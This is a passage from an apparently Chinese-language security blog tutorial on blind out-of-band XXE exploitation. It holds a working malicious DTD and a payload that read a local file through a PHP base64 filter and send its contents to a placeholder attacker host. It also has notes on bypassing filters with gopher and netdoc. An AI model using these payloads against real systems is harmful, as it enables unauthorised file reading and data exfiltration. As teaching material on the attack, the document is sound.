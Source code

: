 test.dtd

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/test.txt">
<!ENTITY % int "<!ENTITY % send SYSTEM 'http://ip:9999?p=%file;'>">
```

payload:

```xml
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]>
```

![1547394729754]({{site.baseurl}}/assets/images/审计/1547394729754.png)

结果如下：

![20181120002647-e90baeb4-ec17-1]({{site.baseurl}}/assets/images/审计/20181120002647-e90baeb4-ec17-1.png)

**整个调用过程：**

我们从 payload 中能看到 连续调用了三个参数实体 %remote;%int;%send;，这就是我们的利用顺序，%remote 先调用，调用后请求远程服务器上的 test.dtd ，有点类似于将 test.dtd 包含进来，然后 %int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 `&#37;`)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题。

**新的利用**

如图所示

![20181120002647-e93bbf00-ec17-1]({{site.baseurl}}/assets/images/审计/20181120002647-e93bbf00-ec17-1.png)

**注意：**

1.其中从2012年9月开始，Oracle JDK版本中删除了对gopher方案的支持，后来又支持的版本是 Oracle JDK 1.7
update 7 和 Oracle JDK 1.6 update 35
2.libxml 是 PHP 的 xml 支持

**netdoc协议**

 Java中在过滤了file|ftp|gopher|情况下使用netdoc 协议列目录：

附上一张图

![1]({{site.baseurl}}/assets/images/审计/LCTF2018.png)

另外对于带外XXE还可以通过burp 进行测试如（附上两张图）：

![20181218134330979]({{site.baseurl}}/assets/images/审计/20181218134330979.png)

![20181218134350824]({{site.baseurl}}/assets/images/审计/20181218134350824.png)

可参考[这篇文章](https://paper.tuisec.win/detail/77e971804021874),关于burp此插件还可在多个场景测试中用到比如XSS、SQL、SSRF等。关于此插件的利用可参考[这篇博文](https://www.cnblogs.com/blacksunny/p/8005053.html)在这不进行过多介绍。
